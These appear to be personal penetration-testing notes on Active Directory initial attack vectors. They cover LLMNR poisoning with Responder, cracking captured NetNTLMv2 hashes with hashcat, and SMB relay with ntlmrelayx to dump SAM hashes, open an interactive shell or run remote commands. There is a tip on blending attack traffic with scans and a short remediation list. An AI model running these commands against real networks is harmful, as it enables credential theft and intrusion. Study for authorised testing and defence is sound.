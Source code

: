 # AD: Initial Attack Vectors
Internal Notes

### LLMNR Poison
- Something like Responder for tooling to perform these attacks.
- MITM based
- Maybe worth running Responder at the same time as Nessus/Nexpose/VAS scans, to obfuscate & utilize traffic that is common.
  - `responder -I {interface} -dwPv`
- Captured Hashes can crack
  - `hashcat -m 5600 crack.txt /usr/share/wordlists/fasttrack.txt` 

#### Remediation
- GPO: DNS Client: Multicast Name Resolution(Botom of List)
- NAC
- Password Policy
  
### SMB Attacks
- Responder (Relay) - Ensure HTTP and SMB servers off. Should have an Admin Account to be worth it
  - `nmap --script=smb2-security-mode.nse -p445 10.0.0.25`
  - `ntlmrelayx.py `
    - Dumps SAM
  - `ntlmrelayx.py -i`: Interactive(Establish Bind Shell on local address)
    - `nc 127.0.0.1:11000` - `help` list of options that can be performed through the smb client shell
  - `ntlmrelayx.py -c "Bad Stuff command"` - Remote Code Execution through SMB relay 
